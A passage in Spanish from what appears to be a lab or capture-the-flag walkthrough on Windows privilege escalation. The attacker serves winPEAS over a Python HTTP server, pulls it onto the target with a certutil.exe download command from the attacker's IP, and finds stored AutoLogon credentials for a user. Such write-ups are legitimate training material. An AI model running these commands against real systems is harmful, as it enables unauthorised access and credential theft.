 <figure><img src="../../../.gitbook/assets/1658_vmware_6APrlpHagy.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### System enumeration with winPEAS

Probaremos de enumerar el sistema en busca de vías potenciales para escalar nuestro privilegio, ya que actualmente somo suna cuenta de servicio (svc).

Nos copiaremos el winPEASx64.exe en nuestro directorio actual de trabajo y a través del servidor HTTP Python lo compartiremos para que en el equipo de Windows lo descarguemos a través de **certutil.exe**.

{% code overflow="wrap" %}
```bash
python3 -m http.server 80

certutil.exe -f -urlcache -split http://10.10.14.14/winPEASx64.exe winPEAS.exe
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Ejecutando el **winPEAS** comprobamos que ha encontrado las credenciales almacenadas en el AutoLogon del usuario "jdoe".

<figure><img src="../../../.gitbook/assets/1660_vmware_EJ9bIghQeF.png" alt=""><figcaption></figcaption></figure>
